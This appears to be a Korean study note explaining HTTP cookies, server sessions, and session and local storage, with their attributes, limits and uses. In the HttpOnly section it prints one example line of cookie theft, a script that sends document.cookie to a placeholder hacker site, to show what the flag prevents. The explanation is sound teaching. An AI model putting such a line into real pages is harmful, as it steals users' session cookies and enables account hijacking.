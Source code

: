# 쿠키, 세션, 웹 스토리지(세션/로컬)
HTTP의 특징은 비연결성(connectionless), 비상태성(stateless)이다.
서버의 자원을 절약하기 위해 사용자의 요청마다 연결과 해제를 하고, 연결 해제 후에는 상태 정보가 저장되지 않는다.  
하지만 로그인을 하면 로그인 상태를 계속 유지하는 등 사용자의 정보를 유지해야 하는 경우가 있다. HTTP의 비연결성, 비상태성을 보완하기 위해 사용되는 것이 바로 쿠키, 웹 스토리지(세션 스토리지, 로컬 스토리지)이다.
> 목차
> 1. [쿠키](#1-쿠키)
> 2. [세션](#2-세션)
> 3. [웹 스토리지(세션/로컬)](#3-웹-스토리지)

## 1. 쿠키
key, value 형태로 웹 브라우저에 정보를 저장하는 파일. 만료 기한이 있다. 문자열 형태로 저장된다.
- 사이트에 접속했을 때 서버가 응답(response) 헤더의 Set-Cookie에 정보를 설정해 보내면 브라우저가 그 부분을 쿠키 파일로 저장한다.
- 사용자가 웹사이트에 http 요청(request)을 할 때 마다 쿠키도 헤더의 Cookie 부분에 실려 매번 함께 보내진다.

### 특징
- 웹 브라우저마다 쿠키를 저장하는 위치와 방법은 다르므로 다른 브라우저에서 생성된 쿠키는 사용할 수 없다.
- 최대 4kB의 크기를 가질 수 있다.
- 클라이언트에 최대 300개 까지 쿠키를 저장할 수 있다.
- 도메인 하나당 최대 50개의 쿠키를 저장할 수 있다.

### 구성 요소
쿠키는 document.cookie 프로퍼티에 아래와 같은 문자열의 형태로 설정한다.
> "name=value; expires=[Date]; Domain=[Domain]; Path=[Path]; [Secure]; HttpOnly"

- **key, value**
- **만료기한**: 쿠키가 만료되는 때. expires(유효 일자)나 max-age(만료 기간)로 설정한다. 이 옵션이 지정되어있지 않으면, 브라우저가 닫힐 때 쿠키도 함께 삭제된다. 이런 쿠키를 "세션 쿠키(session cookie)"라고 부른다.
  - expires: GMT 형식으로 설정, 과거 날짜를 주면 쿠키가 삭제된다.
  - max-age: 초로 설정(예-3600), 음수값을 주면 쿠키가 삭제된다.
- **도메인**: 쿠키를 필요로 하는 웹 서버 도메인 (ex- google.com)
- **경로**: 쿠키를 필요로 하는 웹 페이지 경로명 (ex- / (웹사이트의 최상위))
- **플래그**: 보안을 위한 설정. Secure, HttpOnly가 있다.
  - Secure: HTTPS로 보안 통신하는 경우에만 쿠키가 전송된다.
  - HttpOnly: httpOnly 옵션은 웹서버에서 Set-Cookie 헤더로 쿠키를 설정할 때 지정할 수 있다. 자바스크립트 같은 클라이언트 측 스크립트가 쿠키를 사용할 수 없게 한다. document.cookie를 통해 쿠키를 볼 수도 없고 조작할 수도 없다.  
  다음과 같은 \<script>를 삽입해 쿠키를 알아내는 경우를 방지할 수 있다. 
    ```javascript
    location.href = 'http://해커사이트/?cookies=' + document.cookie;
    ```

### 단점
- 클라이언트 단에 저장되고, 암호화가 되어있지 않다. 임의 수정이나 가로채기가 발생할 수 있어 보안에 취약하다.  
  > *쿠키에는 민감하거나 중요한 정보를 담지 않는 것이 좋다.*
- 매 http 요청(request)마다 쿠키도 함께 포함되어 전송되므로 상당히 많은 트래픽이 소모된다.  
예를 들어 어떤 웹사이트에서 html, css, 이미지를 불러오기 위해 총 77번의 http 요청이 필요하다고 하자. 그러면 77번의 요청에 매번 최대 4kb의 크기를 갖는 쿠키가 포함되므로 불필요한 자원낭비가 생긴다.

### 사용 예
- 자동 로그인 (로컬 스토리지로도 구현할 수 있다)
- '7일간 이 화면 보지 않기'
- 장바구니
- 사용자의 행동 패턴 분석
- 광고 및 상품 추천

## 2. 세션
사용자 정보를 서버에 저장해 관리하는 것. 또는 브라우저와 웹 사이트가 연결된 상황을 지칭하기도 한다.  
두 가지 의미를 갖는 이유는, 세션이 서버에 사용자의 정보를 저장해 관리하고, 로그인 등으로 인증한 사용자에게는 세션 ID를 가진 쿠키를 주어 계속 정보에 접근할 수 있도록 하기 때문이다.
- 클라이언트가 로그인을 하면 서버가 아이디와 비밀번호를 검사해 유효성을 확인한다. 그 다음 unique한 session ID를 생성해 `set-cookie: sessionid=a1x2fjz`처럼 헤더에 쿠키로 실어 보낸다.
- 클라이언트는 서버에 요청(request)할 때마다 session ID를 `cookie: sessionid=a1x2fjz`의 형태로 자동으로 요청헤더에 추가해 요청하게된다.
- 서버에서는 요청헤더의 sessionid 값을 세션저장소에서 찾아보고 유효한지 확인한 후, 요청을 처리하고 응답한다.

### 특징
- 브라우저가 닫히는 순간 세션이 삭제된다. (세션 ID가 더이상 유효하지 않게 된다)
- 쿠키는 탈취와 변조가 가능하지만, 세션은 정보는 서버에 저장되어 있고 클라이언트 쪽에서는 세션 ID값만 가지고 있기 때문에 상대적으로 안전하다.
- 서버의 리소스(ex-RAM)가 기억하고 있는 것이기 때문에 저장 형태는 Object이다.
- 서버에서 정보를 저장하고 처리하기 때문에 내용이 너무 많으면 서버에 부담이 될 수 있고, 쿠키보다는 처리 속도가 느리다.

### 사용 예
로그인할 때 세션에 ID와 닉네임 등을 저장해놓으면 매 번 DB에서 조회할 필요가 없다.

## 3. 웹 스토리지
웹 스토리지에는 세션 스토리지와 로컬 스토리지가 있다. 둘의 차이는 저장 데이터를 다른 윈도우 창이 공유할 수 있느냐와 수명에 있다.  
웹 스토리지는 기존에 쿠키에 정보를 저장하면 http request마다 쿠키가 같이 전송된다는 단점을 보완할 수 있다.

### 특징
- key, value 형태의 문자열로 정보를 저장한다.
- 쿠키와 다르게 웹 스토리지 객체는 네트워크 요청 시 서버로 전송되지 않는다. 이런 특징 때문에 쿠키보다 더 많은 자료를 보관할 수 있다. (약 5MB정도)
- 웹 스토리지 객체는 origin에 묶여있다. (도메인·프로토콜·포트가 같아야 같은 origin). 따라서 프로토콜과 서브 도메인이 다르면 데이터에 접근할 수 없다.
- key는 중복될 수 없으며 key, value 문자열은 대소문자를 구분한다.
- 세션 스토리지와 로컬 스토리지는 동일한 Storage 인터페이스로 접근되므로 메서드도 동일하다.
- 쿠키와 다르게 서버가 HTTP 헤더를 통해 스토리지 객체를 조작할 수 없다. 웹 스토리지 객체 조작은 모두 자바스크립트로 이루어진다.

| 메서드               | 설명                                           |
|---------------------|------------------------------------------------|
| key(index)          | index번째에 저장된 key가 무엇인지 문자열 반환    |
| setItem(key, value) | `session/localStorage["key"] = "value"`와 동일  |
| getItem(key)        | key에 해당하는 value를 문자열로 반환. 없으면 null |
| removeItem(key)     | key의 아이템 삭제                               |
| clear()             | 스토리지의 모든 아이템 삭제                      |


![](./img/webStorage.png)

### Session Storage
- 도메인마다 따로 생성된다.
- 같은 도메인이라도 윈도우마다 따로 생성된다.
- 윈도우(window 객체)가 닫히면 세션 스토리지도 삭제된다.
- 윈도우 복제로 생성된 경우, 스크립트를 이용해 새 창을 연 경우 같은 값을 가진 세션 스토리지가 "복제"된다.
- 새로 생성된 윈도우와 기존 윈도우의 세션 스토리지는 서로 영향을 주지 않는다.

### Local Storage
- 도메인마다 따로 생성된다.
- 하지만 같은 도메인, 예를 들면 google.com에 소속된 웹페이지는 모두 같은 로컬 스토리지를 공유한다.
- 지속기간에 제한이 없다. 사용자가 명시적으로 지우지 않는 한 영구적으로 저장된다.
- 도메인이 다르면 서로의 로컬 스토리지에 접근할 수 없다. (google.com과 naver.com은 서로의 로컬 스토리지에 접근할 수 없음)
- Cookie를 이용한 사이트 고유 설정 정보등을 대신하기에 적당하다.

### 사용 예
- sessionStorage - 장바구니
- localStorage - 라이트/다크 테마와 같은 사용자 설정

## Reference
- https://ko.javascript.info/cookie
- https://ko.javascript.info/localstorage
- [[Web] HTTP Only와 Secure Cookie 이해하기](https://nsinc.tistory.com/121)
- https://chrisjune-13837.medium.com/web-%EC%BF%A0%ED%82%A4-%EC%84%B8%EC%85%98%EC%9D%B4%EB%9E%80-aa6bcb327582
- https://croute.me/419